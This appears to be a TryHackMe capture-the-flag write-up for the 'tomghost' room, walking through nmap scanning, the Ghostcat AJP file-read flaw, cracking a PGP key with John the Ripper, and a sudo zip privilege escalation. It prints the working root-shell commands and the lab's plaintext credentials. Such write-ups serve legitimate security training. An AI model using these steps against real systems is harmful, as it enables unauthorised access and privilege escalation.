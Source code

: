 ## tomghost - Try Hack Me
Easy box from tryhackme

`export IP=10.10.170.225`

## 1. Overveiw

**NMAP**
**Gobuster**
****
****
****
Link to the machine: https://tryhackme.com/room/tomghost



## user.txt

First we do a nmap `nmap -sC -sV @IP`
Output is the following:
```sh
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that 8009 is open running apj13.
A quick google search tells us this is vulnerable.
Seemes to be a local file inclusion vulnerability called tomghost that we can use.

### Apache JServ Protocol - AJP
Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited.

ExploitDB has a python script that can help us conduct the AJP requests to the server. It is pretty complex, but similar to a HTTP request. We use the script in order to just see if we geta response. When we run the script on the server, it replies witht the following string:

```sh
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

So we have a username and password. We can use this to log into the server on ssh.

We are in! Then we go to the home folder and `cd` in the `merlin` user. Here we find the user.txt, and we have permission to read it.

`python3 -m http.server 9001`

And then we wget the pgp and gpg files onto our machine. Old switcharoo.





## root.txt

There is a `.asc` file containing a private PGP private Key Block, and a .pgp file that contains some raw data that we cant read.

We can use johntheripper in order to create a hash for this and try to compare it with passwords from rockyou.
We do the ffollowing:
```sh
gpg2john tryhackme.asc > hash2
john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash2
```

And john finds the following password:
`alexandru        (tryhackme)`

This is the gpg password for the user. So we can add the private key to our list:
`gpg --import tryhackme.asc`

Then we supply the password that we just found.
And we can now decrypt the credential.pgp file:

`gpg -d credential.pgp`

- `-d` for decrypt.

We are then presented with the following username and password
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

After we log into merlin, we try the classic low hangin fruit `sudo -l`
and we see that merlin is allowed to run `zip`.
We then go to gtfobins and find a way to spawn a root shell.


Here are the commands to spawn a root shell:
```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

The first line creates a temporary file or directory, and `-u` makes it not create anything, just printing a name.
Line 2 we use `zip` with `sudo` on that file or directory `TF` with the `/etc/hosts` file. This will create a zipfile called `TF.zip` containing the /etc/hosts file.
Then also in line 2 we do a `-T` and `-TT` which will use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.
And using the `-T -TT` we follow up with a shell for root using `'sh #'`.
Finally the tmp file/directory is deleted using the `sudo rm`.

We get a root shell and can just cat out the flag.
